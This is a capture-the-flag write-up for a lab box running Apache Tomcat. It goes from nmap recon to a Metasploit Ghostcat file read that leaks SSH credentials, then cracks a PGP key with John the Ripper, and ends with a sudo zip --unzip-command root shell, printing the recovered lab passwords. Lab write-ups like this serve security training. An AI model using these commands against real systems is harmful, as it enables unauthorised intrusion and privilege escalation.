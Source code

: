 [[CTF Notes]]

---
## Target IP: 10.10.135.196

### Recon

```
nmap -O -sV 10.10.135.196
```

### Open Ports:

```
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
8080/tcp open  http       Apache Tomcat 9.0.30
```
### Exploit 

- Apache Tomcat/9.0.30

- $CATALINA_HOME/conf/tomcat-users.xml

- use metasploit:

```
use auxiliary/admin/http/tomcat_ghostcat
set RHOSTS 10.10.135.196
set RPORT 8009
run
```

- we find:

Welcome to GhostCat
skyfuck:8730281lkjlkjdqlksalks

## SSH

- use the above credentials and we successfully log in using ssh on the target ip

- In home directory, we find:

tryhackme.asc (PGP private key)

credential.pgp (encrypted file)

- use pgp2john to get a hash from the file to crack using johntheripper:

`gpg2john tryhackme.asc > tryhackme.hash`

`john --wordlist=/usr/share/wordlists/rockyou.txt tryhackme.hash
`
- alexandru        (tryhackme)  

## Decrypting

- Import the private key:

`gpg --import tryhackme.asc`

- Decrypt the encrypted file:

`gpg --decrypt credential.pgp`

- new credentials: 

`merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j`

## SSH as merlin

```bash
ssh merlin@10.10.135.196
```
- Grab the user flag

##  Privilege Escalation to Root

`sudo -l` :

```python
User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
``` 

## GTFObins

```bash
TF=$(mktemp -d)
echo '#!/bin/bash
echo ROOT ACCESS GRANTED
/bin/bash' > $TF/x
chmod +x $TF/x
sudo zip -q /tmp/test.zip /etc/hosts -T --unzip-command=$TF/x

```

- This drops us into a root shell via abuse of the --unzip-command flag on zip.

- Read the root flag:

`cat /root/root.txt`


